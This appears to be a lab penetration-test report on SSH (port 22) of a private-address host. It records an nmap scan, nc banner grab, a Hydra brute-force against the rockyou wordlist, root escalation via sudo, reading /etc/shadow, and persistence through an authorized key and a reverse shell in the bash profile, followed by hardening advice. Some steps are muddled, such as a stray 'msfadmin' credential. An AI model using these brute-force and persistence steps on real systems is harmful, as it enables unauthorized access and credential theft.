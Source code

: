 # Penetration Testing Report – (Port 22 - SSH)

# 1.Test date : 12-06-25
  Test by : [ NIKHIL ]

2. Target Information
- Target IP: 192.168.1.101
- Operating System: Linux (Ubuntu-based)
- Service: SSH (OpenSSH)
- Port: 22/tcp
- Tools Used: Nmap, Hydra, Metasploit, SSH client


# 3 Scanning / Reconnaissance
Command:
```
nmap -sV -p 22 192.168.1.101
```
Output:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

Interpretation:
The SSH service is running an outdated version (OpenSSH 4.7p1), which may be vulnerable to known issues.  
No immediate remote exploit is available, but weak password authentication can be tested.  

#4. Enumeration

**4.1 Banner Grabbing**
Command:
nc 192.168.1.101 22

Result:
SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

**4.2 Username Discovery**
Possible usernames:
- root
- admin
- user
- postgres
- service

Gathered from:
- Machine default users
- /etc/passwd (via other exploits)

**Ecryption Enumrations**
```
 ssh-client 192.168.1.101
```
It will so the Cryptographic info 
# 5. Exploitation

**5.1 Brute-Force Attack (Hydra)**

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.101
```

Result:
[22][ssh] host: 192.168.1.101   login: admin   password: admin

5.2 Manual SSH Login
Command:
ssh admin@192.168.1.101

Result:
- Successful login
- User shell obtained

Privilege Escalation:
- Tried `sudo -l`
- Password for `msfadmin` is same as username
- Escalated to root using `sudo su`

6. Post-Exploitation

Commands executed:
- whoami → root
- uname -a → kernel info
- ifconfig → network details
- cat /etc/shadow → password hashes

Persistence:
- Created SSH key in `~/.ssh/authorized_keys`
- Added reverse shell to bash profile

7. Recommendations

- Update OpenSSH to the latest stable version
- Disable root and default user login via SSH
- Use key-based authentication instead of passwords
- Implement fail2ban or similar tools to prevent brute-force
- Audit SSH logs for unauthorized login attempts
- Enforce strong password policies

8. Conclusion

Port 22 (SSH) on 192.168.1.101 was vulnerable due to weak default credentials and lack of brute-force protection.   
Successful login and privilege escalation to root were achieved using Hydra and default credentials.  
Hardening SSH and disabling unused accounts are essential to prevent real-world attacks.
